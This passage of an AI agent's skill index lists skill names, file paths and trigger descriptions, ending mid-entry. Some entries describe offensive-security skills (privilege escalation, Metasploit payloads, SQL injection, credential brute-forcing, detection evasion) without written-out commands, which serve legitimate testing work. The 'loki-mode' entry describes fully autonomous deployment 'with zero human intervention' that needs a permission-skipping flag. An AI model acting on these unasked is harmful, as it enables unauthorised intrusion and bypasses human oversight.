    <item id="launch-strategy" confidence="0.5">
        <name>launch-strategy</name>
        <path>.agent/skills/launch-strategy/SKILL.md</path>
        <description>"When the user wants to plan a product launch, feature announcement, or release strategy. Also use when the user mentions 'launch,' 'Product Hunt,' 'feature release,' 'announcement,' 'go-to-market,' 'beta launch,' 'early access,' 'waitlist,' or 'product update.' This skill covers phased launches, channel strategy, and ongoing launch momentum."</description>
    </item>
    <item id="lint-and-validate" confidence="0.5">
        <name>lint-and-validate</name>
        <path>.agent/skills/lint-and-validate/SKILL.md</path>
        <description>"Automatic quality control, linting, and static analysis procedures. Use after every code modification to ensure syntax correctness and project standards. Triggers onKeywords: lint, format, check, validate, types, static analysis."</description>
    </item>
    <item id="linux-privilege-escalation" confidence="1.0">
        <name>Linux Privilege Escalation</name>
        <path>.agent/skills/linux-privilege-escalation/SKILL.md</path>
        <description>This skill should be used when the user asks to "escalate privileges on Linux", "find privesc vectors on Linux systems", "exploit sudo misconfigurations", "abuse SUID binaries", "exploit cron jobs for root access", "enumerate Linux systems for privilege escalation", or "gain root access from low-privilege shell". It provides comprehensive techniques for identifying and exploiting privilege escalation paths on Linux systems.</description>
    </item>
    <item id="linux-shell-scripting" confidence="1.0">
        <name>Linux Production Shell Scripts</name>
        <path>.agent/skills/linux-shell-scripting/SKILL.md</path>
        <description>This skill should be used when the user asks to "create bash scripts", "automate Linux tasks", "monitor system resources", "backup files", "manage users", or "write production shell scripts". It provides ready-to-use shell script templates for system administration.</description>
    </item>
    <item id="llm-app-patterns" confidence="1.0">
        <name>llm-app-patterns</name>
        <path>.agent/skills/llm-app-patterns/SKILL.md</path>
        <description>"Production-ready patterns for building LLM applications. Covers RAG pipelines, agent architectures, prompt IDEs, and LLMOps monitoring. Use when designing AI applications, implementing RAG, building agents, or setting up LLM observability."</description>
    </item>
    <item id="loki-mode" confidence="1.0">
        <name>loki-mode</name>
        <path>.agent/skills/loki-mode/SKILL.md</path>
        <description>Multi-agent autonomous startup system for Claude Code. Triggers on "Loki Mode". Orchestrates 100+ specialized agents across engineering, QA, DevOps, security, data/ML, business operations, marketing, HR, and customer success. Takes PRD to fully deployed, revenue-generating product with zero human intervention. Features Task tool for subagent dispatch, parallel code review with 3 specialized reviewers, severity-based issue triage, distributed task queue with dead letter handling, automatic deployment to cloud providers, A/B testing, customer feedback loops, incident response, circuit breakers, and self-healing. Handles rate limits via distributed state checkpoints and auto-resume with exponential backoff. Requires --dangerously-skip-permissions flag.</description>
    </item>
    <item id="marketing-ideas" confidence="1.0">
        <name>marketing-ideas</name>
        <path>.agent/skills/marketing-ideas/SKILL.md</path>
        <description>Provide proven marketing strategies and growth ideas for SaaS and software products, prioritized using a marketing feasibility scoring system.</description>
    </item>
    <item id="marketing-psychology" confidence="1.0">
        <name>marketing-psychology</name>
        <path>.agent/skills/marketing-psychology/SKILL.md</path>
        <description>Apply behavioral science and mental models to marketing decisions, prioritized using a psychological leverage and feasibility scoring system.</description>
    </item>
    <item id="mcp-builder" confidence="1.0">
        <name>mcp-builder</name>
        <path>.agent/skills/mcp-builder/SKILL.md</path>
        <description>Guide for creating high-quality MCP (Model Context Protocol) servers that enable LLMs to interact with external services through well-designed tools. Use when building MCP servers to integrate external APIs or services, whether in Python (FastMCP) or Node/TypeScript (MCP SDK).</description>
    </item>
    <item id="metasploit-framework" confidence="1.0">
        <name>Metasploit Framework</name>
        <path>.agent/skills/metasploit-framework/SKILL.md</path>
        <description>This skill should be used when the user asks to "use Metasploit for penetration testing", "exploit vulnerabilities with msfconsole", "create payloads with msfvenom", "perform post-exploitation", "use auxiliary modules for scanning", or "develop custom exploits". It provides comprehensive guidance for leveraging the Metasploit Framework in security assessments.</description>
    </item>
    <item id="micro-saas-launcher" confidence="1.0">
        <name>micro-saas-launcher</name>
        <path>.agent/skills/micro-saas-launcher/SKILL.md</path>
        <description>"Expert in launching small, focused SaaS products fast - the indie hacker approach to building profitable software. Covers idea validation, MVP development, pricing, launch strategies, and growing to sustainable revenue. Ship in weeks, not months. Use when: micro saas, indie hacker, small saas, side project, saas mvp."</description>
    </item>
    <item id="mobile-design" confidence="1.0">
        <name>mobile-design</name>
        <path>.agent/skills/mobile-design/SKILL.md</path>
        <description>Mobile-first design and engineering doctrine for iOS and Android apps. Covers touch interaction, performance, platform conventions, offline behavior, and mobile-specific decision-making. Teaches principles and constraints, not fixed layouts. Use for React Native, Flutter, or native mobile apps.</description>
    </item>
    <item id="moodle-external-api-development" confidence="1.0">
        <name>moodle-external-api-development</name>
        <path>.agent/skills/moodle-external-api-development/SKILL.md</path>
        <description>Create custom external web service APIs for Moodle LMS. Use when implementing web services for course management, user tracking, quiz operations, or custom plugin functionality. Covers parameter validation, database operations, error handling, service registration, and Moodle coding standards.</description>
    </item>
    <item id="multi-agent-brainstorming" confidence="1.0">
        <name>multi-agent-brainstorming</name>
        <path>.agent/skills/multi-agent-brainstorming/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="neon-postgres" confidence="0.5">
        <name>neon-postgres</name>
        <path>.agent/skills/neon-postgres/SKILL.md</path>
        <description>"Expert patterns for Neon serverless Postgres, branching, connection pooling, and Prisma/Drizzle integration Use when: neon database, serverless postgres, database branching, neon postgres, postgres serverless."</description>
    </item>
    <item id="nestjs-expert" confidence="0.5">
        <name>nestjs-expert</name>
        <path>.agent/skills/nestjs-expert/SKILL.md</path>
        <description>Nest.js framework expert specializing in module architecture, dependency injection, middleware, guards, interceptors, testing with Jest/Supertest, TypeORM/Mongoose integration, and Passport.js authentication. Use PROACTIVELY for any Nest.js application issues including architecture decisions, testing strategies, performance optimization, or debugging complex dependency injection problems. If a specialized expert is a better fit, I will recommend switching and stop.</description>
    </item>
    <item id="network-101" confidence="1.0">
        <name>Network 101</name>
        <path>.agent/skills/network-101/SKILL.md</path>
        <description>This skill should be used when the user asks to "set up a web server", "configure HTTP or HTTPS", "perform SNMP enumeration", "configure SMB shares", "test network services", or needs guidance on configuring and testing network services for penetration testing labs.</description>
    </item>
    <item id="nextjs-best-practices" confidence="0.5">
        <name>nextjs-best-practices</name>
        <path>.agent/skills/nextjs-best-practices/SKILL.md</path>
        <description>Next.js App Router principles. Server Components, data fetching, routing patterns.</description>
    </item>
    <item id="nextjs-supabase-auth" confidence="0.5">
        <name>nextjs-supabase-auth</name>
        <path>.agent/skills/nextjs-supabase-auth/SKILL.md</path>
        <description>"Expert integration of Supabase Auth with Next.js App Router Use when: supabase auth next, authentication next.js, login supabase, auth middleware, protected route."</description>
    </item>
    <item id="nodejs-best-practices" confidence="1.0">
        <name>nodejs-best-practices</name>
        <path>.agent/skills/nodejs-best-practices/SKILL.md</path>
        <description>Node.js development principles and decision-making. Framework selection, async patterns, security, and architecture. Teaches thinking, not copying.</description>
    </item>
    <item id="nosql-expert" confidence="1.0">
        <name>nosql-expert</name>
        <path>.agent/skills/nosql-expert/SKILL.md</path>
        <description>"Expert guidance for distributed NoSQL databases (Cassandra, DynamoDB). Focuses on mental models, query-first modeling, single-table design, and avoiding hot partitions in high-scale systems."</description>
    </item>
    <item id="notebooklm" confidence="1.0">
        <name>notebooklm</name>
        <path>.agent/skills/notebooklm/SKILL.md</path>
        <description>Use this skill to query your Google NotebookLM notebooks directly from Claude Code for source-grounded, citation-backed answers from Gemini. Browser automation, library management, persistent auth. Drastically reduced hallucinations through document-only responses.</description>
    </item>
    <item id="notion-template-business" confidence="1.0">
        <name>notion-template-business</name>
        <path>.agent/skills/notion-template-business/SKILL.md</path>
        <description>"Expert in building and selling Notion templates as a business - not just making templates, but building a sustainable digital product business. Covers template design, pricing, marketplaces, marketing, and scaling to real revenue. Use when: notion template, sell templates, digital product, notion business, gumroad."</description>
    </item>
    <item id="obsidian-clipper-template-creator" confidence="0.5">
        <name>obsidian-clipper-template-creator</name>
        <path>.agent/skills/obsidian-clipper-template-creator/SKILL.md</path>
        <description>Guide for creating templates for the Obsidian Web Clipper. Use when you want to create a new clipping template, understand available variables, or format clipped content.</description>
    </item>
    <item id="onboarding-cro" confidence="1.0">
        <name>onboarding-cro</name>
        <path>.agent/skills/onboarding-cro/SKILL.md</path>
        <description>When the user wants to optimize post-signup onboarding, user activation, first-run experience, or time-to-value. Also use when the user mentions "onboarding flow," "activation rate," "user activation," "first-run experience," "empty states," "onboarding checklist," "aha moment," or "new user experience." For signup/registration optimization, see signup-flow-cro. For ongoing email sequences, see email-sequence.</description>
    </item>
    <item id="page-cro" confidence="1.0">
        <name>page-cro</name>
        <path>.agent/skills/page-cro/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="paid-ads" confidence="1.0">
        <name>paid-ads</name>
        <path>.agent/skills/paid-ads/SKILL.md</path>
        <description>"When the user wants help with paid advertising campaigns on Google Ads, Meta (Facebook/Instagram), LinkedIn, Twitter/X, or other ad platforms. Also use when the user mentions 'PPC,' 'paid media,' 'ad copy,' 'ad creative,' 'ROAS,' 'CPA,' 'ad campaign,' 'retargeting,' or 'audience targeting.' This skill covers campaign strategy, ad creation, audience targeting, and optimization."</description>
    </item>
    <item id="parallel-agents" confidence="1.0">
        <name>parallel-agents</name>
        <path>.agent/skills/parallel-agents/SKILL.md</path>
        <description>Multi-agent orchestration patterns. Use when multiple independent tasks can run with different domain expertise or when comprehensive analysis requires multiple perspectives.</description>
    </item>
    <item id="paywall-upgrade-cro" confidence="0.5">
        <name>paywall-upgrade-cro</name>
        <path>.agent/skills/paywall-upgrade-cro/SKILL.md</path>
        <description>When the user wants to create or optimize in-app paywalls, upgrade screens, upsell modals, or feature gates. Also use when the user mentions "paywall," "upgrade screen," "upgrade modal," "upsell," "feature gate," "convert free to paid," "freemium conversion," "trial expiration screen," "limit reached screen," "plan upgrade prompt," or "in-app pricing." Distinct from public pricing pages (see page-cro) — this skill focuses on in-product upgrade moments where the user has already experienced value.</description>
    </item>
    <item id="pdf" confidence="0.5">
        <name>pdf</name>
        <path>.agent/skills/pdf/SKILL.md</path>
        <description>Comprehensive PDF manipulation toolkit for extracting text and tables, creating new PDFs, merging/splitting documents, and handling forms. When Claude needs to fill in a PDF form or programmatically process, generate, or analyze PDF documents at scale.</description>
    </item>
    <item id="pdf-official" confidence="0.5">
        <name>pdf</name>
        <path>.agent/skills/pdf-official/SKILL.md</path>
        <description>Comprehensive PDF manipulation toolkit for extracting text and tables, creating new PDFs, merging/splitting documents, and handling forms. When Claude needs to fill in a PDF form or programmatically process, generate, or analyze PDF documents at scale.</description>
    </item>
    <item id="pentest-checklist" confidence="1.0">
        <name>Pentest Checklist</name>
        <path>.agent/skills/pentest-checklist/SKILL.md</path>
        <description>This skill should be used when the user asks to "plan a penetration test", "create a security assessment checklist", "prepare for penetration testing", "define pentest scope", "follow security testing best practices", or needs a structured methodology for penetration testing engagements.</description>
    </item>
    <item id="pentest-commands" confidence="1.0">
        <name>Pentest Commands</name>
        <path>.agent/skills/pentest-commands/SKILL.md</path>
        <description>This skill should be used when the user asks to "run pentest commands", "scan with nmap", "use metasploit exploits", "crack passwords with hydra or john", "scan web vulnerabilities with nikto", "enumerate networks", or needs essential penetration testing command references.</description>
    </item>
    <item id="performance-profiling" confidence="0.5">
        <name>performance-profiling</name>
        <path>.agent/skills/performance-profiling/SKILL.md</path>
        <description>Performance profiling principles. Measurement, analysis, and optimization techniques.</description>
    </item>
    <item id="personal-tool-builder" confidence="1.0">
        <name>personal-tool-builder</name>
        <path>.agent/skills/personal-tool-builder/SKILL.md</path>
        <description>"Expert in building custom tools that solve your own problems first. The best products often start as personal tools - scratch your own itch, build for yourself, then discover others have the same itch. Covers rapid prototyping, local-first apps, CLI tools, scripts that grow into products, and the art of dogfooding. Use when: build a tool, personal tool, scratch my itch, solve my problem, CLI tool."</description>
    </item>
    <item id="plaid-fintech" confidence="0.5">
        <name>plaid-fintech</name>
        <path>.agent/skills/plaid-fintech/SKILL.md</path>
        <description>"Expert patterns for Plaid API integration including Link token flows, transactions sync, identity verification, Auth for ACH, balance checks, webhook handling, and fintech compliance best practices. Use when: plaid, bank account linking, bank connection, ach, account aggregation."</description>
    </item>
    <item id="plan-checker" confidence="0.5">
        <name>GSD Plan Checker</name>
        <path>.agent/skills/plan-checker/SKILL.md</path>
        <description>Validates plans before execution to catch issues early</description>
    </item>
    <item id="plan-writing" confidence="1.0">
        <name>plan-writing</name>
        <path>.agent/skills/plan-writing/SKILL.md</path>
        <description>Structured task planning with clear breakdowns, dependencies, and verification criteria. Use when implementing features, refactoring, or any multi-step work.</description>
    </item>
    <item id="planner" confidence="1.0">
        <name>GSD Planner</name>
        <path>.agent/skills/planner/SKILL.md</path>
        <description>Creates executable phase plans with task breakdown, dependency analysis, and goal-backward verification</description>
    </item>
    <item id="planning-with-files" confidence="1.0">
        <name>planning-with-files</name>
        <path>.agent/skills/planning-with-files/SKILL.md</path>
        <description>Implements Manus-style file-based planning for complex tasks. Creates task_plan.md, findings.md, and progress.md. Use when starting complex multi-step tasks, research projects, or any task requiring &gt;5 tool calls.</description>
    </item>
    <item id="playwright-skill" confidence="1.0">
        <name>playwright-skill</name>
        <path>.agent/skills/playwright-skill/SKILL.md</path>
        <description>Complete browser automation with Playwright. Auto-detects dev servers, writes clean test scripts to /tmp. Test pages, fill forms, take screenshots, check responsive design, validate UX, test login flows, check links, automate any browser task. Use when user wants to test websites, automate browser interactions, validate web functionality, or perform any browser-based testing.</description>
    </item>
    <item id="popup-cro" confidence="0.5">
        <name>popup-cro</name>
        <path>.agent/skills/popup-cro/SKILL.md</path>
        <description>Create and optimize popups, modals, overlays, slide-ins, and banners to increase conversions without harming user experience or brand trust.</description>
    </item>
    <item id="postgres-best-practices" confidence="0.5">
        <name>supabase-postgres-best-practices</name>
        <path>.agent/skills/postgres-best-practices/SKILL.md</path>
        <description>Postgres performance optimization and best practices from Supabase. Use this skill when writing, reviewing, or optimizing Postgres queries, schema designs, or database configurations.</description>
    </item>
    <item id="powershell-windows" confidence="0.5">
        <name>powershell-windows</name>
        <path>.agent/skills/powershell-windows/SKILL.md</path>
        <description>PowerShell Windows patterns. Critical pitfalls, operator syntax, error handling.</description>
    </item>
    <item id="pptx" confidence="0.5">
        <name>pptx</name>
        <path>.agent/skills/pptx/SKILL.md</path>
        <description>"Presentation creation, editing, and analysis. When Claude needs to work with presentations (.pptx files) for: (1) Creating new presentations, (2) Modifying or editing content, (3) Working with layouts, (4) Adding comments or speaker notes, or any other presentation tasks"</description>
    </item>
    <item id="pptx-official" confidence="0.5">
        <name>pptx</name>
        <path>.agent/skills/pptx-official/SKILL.md</path>
        <description>"Presentation creation, editing, and analysis. When Claude needs to work with presentations (.pptx files) for: (1) Creating new presentations, (2) Modifying or editing content, (3) Working with layouts, (4) Adding comments or speaker notes, or any other presentation tasks"</description>
    </item>
    <item id="pricing-strategy" confidence="1.0">
        <name>pricing-strategy</name>
        <path>.agent/skills/pricing-strategy/SKILL.md</path>
        <description>Design pricing, packaging, and monetization strategies based on value, customer willingness to pay, and growth objectives.</description>
    </item>
    <item id="prisma-expert" confidence="0.5">
        <name>prisma-expert</name>
        <path>.agent/skills/prisma-expert/SKILL.md</path>
        <description>Prisma ORM expert for schema design, migrations, query optimization, relations modeling, and database operations. Use PROACTIVELY for Prisma schema issues, migration problems, query performance, relation design, or database connection issues.</description>
    </item>
    <item id="privilege-escalation-methods" confidence="1.0">
        <name>Privilege Escalation Methods</name>
        <path>.agent/skills/privilege-escalation-methods/SKILL.md</path>
        <description>This skill should be used when the user asks to "escalate privileges", "get root access", "become administrator", "privesc techniques", "abuse sudo", "exploit SUID binaries", "Kerberoasting", "pass-the-ticket", "token impersonation", or needs guidance on post-exploitation privilege escalation for Linux or Windows systems.</description>
    </item>
    <item id="product-manager-toolkit" confidence="0.5">
        <name>product-manager-toolkit</name>
        <path>.agent/skills/product-manager-toolkit/SKILL.md</path>
        <description>Comprehensive toolkit for product managers including RICE prioritization, customer interview analysis, PRD templates, discovery frameworks, and go-to-market strategies. Use for feature prioritization, user research synthesis, requirement documentation, and product strategy development.</description>
    </item>
    <item id="production-code-audit" confidence="1.0">
        <name>production-code-audit</name>
        <path>.agent/skills/production-code-audit/SKILL.md</path>
        <description>"Autonomously deep-scan entire codebase line-by-line, understand architecture and patterns, then systematically transform it to production-grade, corporate-level professional quality with optimizations"</description>
    </item>
    <item id="programmatic-seo" confidence="0.5">
        <name>programmatic-seo</name>
        <path>.agent/skills/programmatic-seo/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="prompt-caching" confidence="0.5">
        <name>prompt-caching</name>
        <path>.agent/skills/prompt-caching/SKILL.md</path>
        <description>"Caching strategies for LLM prompts including Anthropic prompt caching, response caching, and CAG (Cache Augmented Generation) Use when: prompt caching, cache prompt, response cache, cag, cache augmented."</description>
    </item>
    <item id="prompt-engineer" confidence="1.0">
        <name>prompt-engineer</name>
        <path>.agent/skills/prompt-engineer/SKILL.md</path>
        <description>"Expert in designing effective prompts for LLM-powered applications. Masters prompt structure, context management, output formatting, and prompt evaluation. Use when: prompt engineering, system prompt, few-shot, chain of thought, prompt design."</description>
    </item>
    <item id="prompt-engineering" confidence="1.0">
        <name>prompt-engineering</name>
        <path>.agent/skills/prompt-engineering/SKILL.md</path>
        <description>Expert guide on prompt engineering patterns, best practices, and optimization techniques. Use when user wants to improve prompts, learn prompting strategies, or debug agent behavior.</description>
    </item>
    <item id="prompt-library" confidence="1.0">
        <name>prompt-library</name>
        <path>.agent/skills/prompt-library/SKILL.md</path>
        <description>"Curated collection of high-quality prompts for various use cases. Includes role-based prompts, task-specific templates, and prompt refinement techniques. Use when user needs prompt templates, role-play prompts, or ready-to-use prompt examples for coding, writing, analysis, or creative tasks."</description>
    </item>
    <item id="python-patterns" confidence="1.0">
        <name>python-patterns</name>
        <path>.agent/skills/python-patterns/SKILL.md</path>
        <description>Python development principles and decision-making. Framework selection, async patterns, type hints, project structure. Teaches thinking, not copying.</description>
    </item>
    <item id="rag-engineer" confidence="0.5">
        <name>rag-engineer</name>
        <path>.agent/skills/rag-engineer/SKILL.md</path>
        <description>"Expert in building Retrieval-Augmented Generation systems. Masters embedding models, vector databases, chunking strategies, and retrieval optimization for LLM applications. Use when: building RAG, vector search, embeddings, semantic search, document retrieval."</description>
    </item>
    <item id="rag-implementation" confidence="0.5">
        <name>rag-implementation</name>
        <path>.agent/skills/rag-implementation/SKILL.md</path>
        <description>"Retrieval-Augmented Generation patterns including chunking, embeddings, vector stores, and retrieval optimization Use when: rag, retrieval augmented, vector search, embeddings, semantic search."</description>
    </item>
    <item id="react-best-practices" confidence="1.0">
        <name>vercel-react-best-practices</name>
        <path>.agent/skills/react-best-practices/SKILL.md</path>
        <description>React and Next.js performance optimization guidelines from Vercel Engineering. This skill should be used when writing, reviewing, or refactoring React/Next.js code to ensure optimal performance patterns. Triggers on tasks involving React components, Next.js pages, data fetching, bundle optimization, or performance improvements.</description>
    </item>
    <item id="react-patterns" confidence="0.5">
        <name>react-patterns</name>
        <path>.agent/skills/react-patterns/SKILL.md</path>
        <description>Modern React patterns and principles. Hooks, composition, performance, TypeScript best practices.</description>
    </item>
    <item id="react-ui-patterns" confidence="0.5">
        <name>react-ui-patterns</name>
        <path>.agent/skills/react-ui-patterns/SKILL.md</path>
        <description>Modern React UI patterns for loading states, error handling, and data fetching. Use when building UI components, handling async data, or managing UI states.</description>
    </item>
    <item id="receiving-code-review" confidence="0.5">
        <name>receiving-code-review</name>
        <path>.agent/skills/receiving-code-review/SKILL.md</path>
        <description>Use when receiving code review feedback, before implementing suggestions, especially if feedback seems unclear or technically questionable - requires technical rigor and verification, not performative agreement or blind implementation</description>
    </item>
    <item id="red-team-tactics" confidence="1.0">
        <name>red-team-tactics</name>
        <path>.agent/skills/red-team-tactics/SKILL.md</path>
        <description>Red team tactics principles based on MITRE ATT&amp;CK. Attack phases, detection evasion, reporting.</description>
    </item>
    <item id="red-team-tools" confidence="1.0">
        <name>Red Team Tools and Methodology</name>
        <path>.agent/skills/red-team-tools/SKILL.md</path>
        <description>This skill should be used when the user asks to "follow red team methodology", "perform bug bounty hunting", "automate reconnaissance", "hunt for XSS vulnerabilities", "enumerate subdomains", or needs security researcher techniques and tool configurations from top bug bounty hunters.</description>
    </item>
    <item id="referral-program" confidence="1.0">
        <name>referral-program</name>
        <path>.agent/skills/referral-program/SKILL.md</path>
        <description>"When the user wants to create, optimize, or analyze a referral program, affiliate program, or word-of-mouth strategy. Also use when the user mentions 'referral,' 'affiliate,' 'ambassador,' 'word of mouth,' 'viral loop,' 'refer a friend,' or 'partner program.' This skill covers program design, incentive structure, and growth optimization."</description>
    </item>
    <item id="remotion-best-practices" confidence="1.0">
        <name>remotion-best-practices</name>
        <path>.agent/skills/remotion-best-practices/SKILL.md</path>
        <description>Best practices for Remotion - Video creation in React</description>
    </item>
    <item id="requesting-code-review" confidence="0.5">
        <name>requesting-code-review</name>
        <path>.agent/skills/requesting-code-review/SKILL.md</path>
        <description>Use when completing tasks, implementing major features, or before merging to verify work meets requirements</description>
    </item>
    <item id="research-engineer" confidence="1.0">
        <name>research-engineer</name>
        <path>.agent/skills/research-engineer/SKILL.md</path>
        <description>"An uncompromising Academic Research Engineer. Operates with absolute scientific rigor, objective criticism, and zero flair. Focuses on theoretical correctness, formal verification, and optimal implementation across any required technology."</description>
    </item>
    <item id="salesforce-development" confidence="0.5">
        <name>salesforce-development</name>
        <path>.agent/skills/salesforce-development/SKILL.md</path>
        <description>"Expert patterns for Salesforce platform development including Lightning Web Components (LWC), Apex triggers and classes, REST/Bulk APIs, Connected Apps, and Salesforce DX with scratch orgs and 2nd generation packages (2GP). Use when: salesforce, sfdc, apex, lwc, lightning web components."</description>
    </item>
    <item id="scanning-tools" confidence="1.0">
        <name>Security Scanning Tools</name>
        <path>.agent/skills/scanning-tools/SKILL.md</path>
        <description>This skill should be used when the user asks to "perform vulnerability scanning", "scan networks for open ports", "assess web application security", "scan wireless networks", "detect malware", "check cloud security", or "evaluate system compliance". It provides comprehensive guidance on security scanning tools and methodologies.</description>
    </item>
    <item id="schema-markup" confidence="1.0">
        <name>schema-markup</name>
        <path>.agent/skills/schema-markup/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="scroll-experience" confidence="1.0">
        <name>scroll-experience</name>
        <path>.agent/skills/scroll-experience/SKILL.md</path>
        <description>"Expert in building immersive scroll-driven experiences - parallax storytelling, scroll animations, interactive narratives, and cinematic web experiences. Like NY Times interactives, Apple product pages, and award-winning web experiences. Makes websites feel like experiences, not just pages. Use when: scroll animation, parallax, scroll storytelling, interactive story, cinematic website."</description>
    </item>
    <item id="segment-cdp" confidence="0.5">
        <name>segment-cdp</name>
        <path>.agent/skills/segment-cdp/SKILL.md</path>
        <description>"Expert patterns for Segment Customer Data Platform including Analytics.js, server-side tracking, tracking plans with Protocols, identity resolution, destinations configuration, and data governance best practices. Use when: segment, analytics.js, customer data platform, cdp, tracking plan."</description>
    </item>
    <item id="senior-architect" confidence="0.5">
        <name>senior-architect</name>
        <path>.agent/skills/senior-architect/SKILL.md</path>
        <description>Comprehensive software architecture skill for designing scalable, maintainable systems using ReactJS, NextJS, NodeJS, Express, React Native, Swift, Kotlin, Flutter, Postgres, GraphQL, Go, Python. Includes architecture diagram generation, system design patterns, tech stack decision frameworks, and dependency analysis. Use when designing system architecture, making technical decisions, creating architecture diagrams, evaluating trade-offs, or defining integration patterns.</description>
    </item>
    <item id="senior-fullstack" confidence="0.5">
        <name>senior-fullstack</name>
        <path>.agent/skills/senior-fullstack/SKILL.md</path>
        <description>Comprehensive fullstack development skill for building complete web applications with React, Next.js, Node.js, GraphQL, and PostgreSQL. Includes project scaffolding, code quality analysis, architecture patterns, and complete tech stack guidance. Use when building new projects, analyzing code quality, implementing design patterns, or setting up development workflows.</description>
    </item>
    <item id="seo-audit" confidence="1.0">
        <name>seo-audit</name>
        <path>.agent/skills/seo-audit/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="seo-fundamentals" confidence="0.5">
        <name>seo-fundamentals</name>
        <path>.agent/skills/seo-fundamentals/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="server-management" confidence="1.0">
        <name>server-management</name>
        <path>.agent/skills/server-management/SKILL.md</path>
        <description>Server management principles and decision-making. Process management, monitoring strategy, and scaling decisions. Teaches thinking, not commands.</description>
    </item>
    <item id="shodan-reconnaissance" confidence="1.0">
        <name>Shodan Reconnaissance and Pentesting</name>
        <path>.agent/skills/shodan-reconnaissance/SKILL.md</path>
        <description>This skill should be used when the user asks to "search for exposed devices on the internet," "perform Shodan reconnaissance," "find vulnerable services using Shodan," "scan IP ranges with Shodan," or "discover IoT devices and open ports." It provides comprehensive guidance for using Shodan's search engine, CLI, and API for penetration testing reconnaissance.</description>
    </item>
    <item id="shopify-apps" confidence="0.5">
        <name>shopify-apps</name>
        <path>.agent/skills/shopify-apps/SKILL.md</path>
        <description>"Expert patterns for Shopify app development including Remix/React Router apps, embedded apps with App Bridge, webhook handling, GraphQL Admin API, Polaris components, billing, and app extensions. Use when: shopify app, shopify, embedded app, polaris, app bridge."</description>
    </item>
    <item id="shopify-development" confidence="0.5">
        <name>shopify-development</name>
        <path>.agent/skills/shopify-development/SKILL.md</path>
        <description>|</description>
    </item>
    <item id="signup-flow-cro" confidence="1.0">
        <name>signup-flow-cro</name>
        <path>.agent/skills/signup-flow-cro/SKILL.md</path>
        <description>When the user wants to optimize signup, registration, account creation, or trial activation flows. Also use when the user mentions "signup conversions," "registration friction," "signup form optimization," "free trial signup," "reduce signup dropoff," or "account creation flow." For post-signup onboarding, see onboarding-cro. For lead capture forms (not account creation), see form-cro.</description>
    </item>
    <item id="skill-creator" confidence="1.0">
        <name>skill-creator</name>
        <path>.agent/skills/skill-creator/SKILL.md</path>
        <description>Guide for creating effective skills. This skill should be used when users want to create a new skill (or update an existing skill) that extends Claude's capabilities with specialized knowledge, workflows, or tool integrations.</description>
    </item>
    <item id="skill-developer" confidence="1.0">
        <name>skill-developer</name>
        <path>.agent/skills/skill-developer/SKILL.md</path>
        <description>Create and manage Claude Code skills following Anthropic best practices. Use when creating new skills, modifying skill-rules.json, understanding trigger patterns, working with hooks, debugging skill activation, or implementing progressive disclosure. Covers skill structure, YAML frontmatter, trigger types (keywords, intent patterns, file paths, content patterns), enforcement levels (block, suggest, warn), hook mechanisms (UserPromptSubmit, PreToolUse), session tracking, and the 500-line rule.</description>
    </item>
    <item id="slack-bot-builder" confidence="1.0">
        <name>slack-bot-builder</name>
        <path>.agent/skills/slack-bot-builder/SKILL.md</path>
        <description>"Build Slack apps using the Bolt framework across Python, JavaScript, and Java. Covers Block Kit for rich UIs, interactive components, slash commands, event handling, OAuth installation flows, and Workflow Builder integration. Focus on best practices for production-ready Slack apps. Use when: slack bot, slack app, bolt framework, block kit, slash command."</description>
    </item>
    <item id="slack-gif-creator" confidence="1.0">
        <name>slack-gif-creator</name>
        <path>.agent/skills/slack-gif-creator/SKILL.md</path>
        <description>Knowledge and utilities for creating animated GIFs optimized for Slack. Provides constraints, validation tools, and animation concepts. Use when users request animated GIFs for Slack like "make me a GIF of X doing Y for Slack."</description>
    </item>
    <item id="smtp-penetration-testing" confidence="1.0">
        <name>SMTP Penetration Testing</name>
        <path>.agent/skills/smtp-penetration-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "perform SMTP penetration testing", "enumerate email users", "test for open mail relays", "grab SMTP banners", "brute force email credentials", or "assess mail server security". It provides comprehensive techniques for testing SMTP server security.</description>
    </item>
    <item id="social-content" confidence="0.5">
        <name>social-content</name>
        <path>.agent/skills/social-content/SKILL.md</path>
        <description>"When the user wants help creating, scheduling, or optimizing social media content for LinkedIn, Twitter/X, Instagram, TikTok, Facebook, or other platforms. Also use when the user mentions 'LinkedIn post,' 'Twitter thread,' 'social media,' 'content calendar,' 'social scheduling,' 'engagement,' or 'viral content.' This skill covers content creation, repurposing, and platform-specific strategies."</description>
    </item>
    <item id="software-architecture" confidence="0.5">
        <name>software-architecture</name>
        <path>.agent/skills/software-architecture/SKILL.md</path>
        <description>Guide for quality focused software architecture. This skill should be used when users want to write code, design architecture, analyze code, in any case that relates to software development.</description>
    </item>
    <item id="sql-injection-testing" confidence="1.0">
        <name>SQL Injection Testing</name>
        <path>.agent/skills/sql-injection-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "test for SQL injection vulnerabilities", "perform SQLi attacks", "bypass authentication using SQL injection", "extract database information through injection", "detect SQL injection flaws", or "exploit database query vulnerabilities". It provides comprehensive techniques for identifying, exploiting, and understanding SQL injection attack vectors across different database systems.</description>
    </item>
    <item id="sqlmap-database-pentesting" confidence="1.0">
        <name>SQLMap Database Penetration Testing</name>
        <path>.agent/skills/sqlmap-database-pentesting/SKILL.md</path>
        <description>This skill should be used when the user asks to "automate SQL injection testing," "enumerate database structure," "extract database credentials using sqlmap," "dump tables and columns from a vulnerable database," or "perform automated database penetration testing." It provides comprehensive guidance for using SQLMap to detect and exploit SQL injection vulnerabilities.</description>
    </item>
    <item id="ssh-penetration-testing" confidence="1.0">
        <name>SSH Penetration Testing</name>
        <path>.agent/skills/ssh-penetration-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "pentest SSH services", "enumerate SSH configurations", "brute force SSH credentials", "exploit SSH vulnerabilities", "perform SSH tunneling", or "audit SSH security". It provides comprehensive SSH penetration testing methodologies and techniques.</description>
    </item>
    <item id="stripe-integration" confidence="0.5">
        <name>stripe-integration</name>
        <path>.agent/skills/stripe-integration/SKILL.md</path>
